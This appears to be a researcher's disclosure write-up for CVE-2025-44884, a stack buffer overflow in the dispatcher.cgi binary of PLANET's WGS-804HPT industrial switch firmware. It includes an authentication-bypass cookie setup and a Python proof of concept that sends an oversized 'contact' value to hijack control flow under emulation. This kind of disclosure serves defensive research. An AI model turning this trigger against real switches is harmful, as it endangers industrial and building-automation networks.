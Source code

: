 ```yaml
---
title: web_sys_infoContact_post_contact
date: 2025-04-20 17:11:54
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44884



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2







# web_sys_infoContact_post_contact

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_sys_infoContact_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by contact value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451403582571-17451485724401.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417161214516](../res/image-20250417161214516-174487753582528.png)





![image-20250417161233948](../res/image-20250417161233948-174487755495529.png)



Through IDA, it can be seen that the stack space is 0x118

﻿The content of the **poc**.py file is as follows:

```json
import os


a =0x204
var_name = "contact"
b = 'a' * 0x600


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)



```



# Attack result

![image-20250417161304980](../res/image-20250417161304980-174487758597530.png)

![image-20250417161342222](../res/image-20250417161342222-174487762317031.png)



Through the above image, we can see that we have overflowed to 0x4f0 and successfully hijacked the control flow. If necessary, more can be overflowed.
